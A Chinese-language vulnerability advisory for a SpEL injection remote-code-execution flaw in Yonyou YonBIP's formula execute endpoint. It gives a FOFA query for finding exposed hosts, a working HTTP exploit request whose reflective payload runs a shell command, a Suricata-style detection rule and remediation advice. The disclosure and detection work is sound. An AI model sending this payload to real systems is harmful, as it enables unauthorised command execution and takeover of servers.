

# 用友YonBIP execute 接口存在Spel表达式注入漏洞

用友YonBIP execute 接口存在Spel表达式注入漏洞，攻击者可获取系统权限。

# 影响版本

用友YonBIP

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-YonBIP"

POC/EXP：

```
POST /iuap-apcom-print/iuap-print/rest/formula/execute HTTP/1.1
Host:127.0.0.1
Accept-Encoding: gzip
Content-Type: application/json
Cookie: _WorkbenchCross_=Ultraman
User-Agent: Mozilla/5.0 (Windows NT6.1;MHhzZWNs) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.617.73 Safari/537.36

{
  "formulaExpression": "1L.getClass().getClass().getMethod('forName', 'a'.getClass()).invoke(null, 'java.util.Scanner').getConstructor(1L.getClass().getClass().getMethod('forName', 'a'.getClass()).invoke(null, 'java.io.InputStream')).newInstance(1L.getClass().getClass().getMethod('forName', 'a'.getClass()).invoke(null, 'java.lang.Runtime').getMethod('getRuntime').invoke(null).getClass().getMethod('exec', 'a'.getClass()).invoke(1L.getClass().getClass().getMethod('forName', 'a'.getClass()).invoke(null, 'java.lang.Runtime').getMethod('getRuntime').invoke(null), 'id').getInputStream()).useDelimiter('\\\\A').next()"
}
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"用友 YonBIP - /iuap-apcom-print formula/execute SpEL 表达式注入 RCE";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/iuap-apcom-print/iuap-print/rest/formula/execute";
        fast_pattern;
    http.content_type; content:"application/json";
    http.request_body;
        content:"formulaExpression"; nocase;
        content:"getClass().getMethod"; distance:0; nocase;
        content:"forName"; distance:0; nocase;
        content:"getRuntime"; distance:0; nocase;
        content:"exec("; distance:0; nocase;
    metadata:
        service http,
        affected_product "用友 YonBIP / iuap-apcom-print",
        vulnerability_type "Spring Expression Language (SpEL) Injection / Remote Code Execution",
        severity "critical";
    classtype:web-application-attack;
    sid:1000760;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
